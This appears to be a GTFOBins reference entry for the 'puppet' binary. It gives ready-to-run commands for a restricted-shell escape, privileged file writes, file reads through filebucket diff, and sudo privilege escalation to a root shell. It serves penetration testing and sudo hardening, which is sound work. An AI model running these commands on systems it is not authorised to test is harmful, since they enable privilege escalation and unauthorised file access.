 # GTFOBin: puppet

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }"
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The file path must be absolute.

```
LFILE="/tmp/file_to_write"
puppet apply -e "file { '$LFILE': content => 'DATA' }"
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file content is corrupted by the `diff` output format. The actual `/usr/bin/diff` command is executed.

```
LFILE=file_to_read
puppet filebucket -l diff /dev/null $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }"
```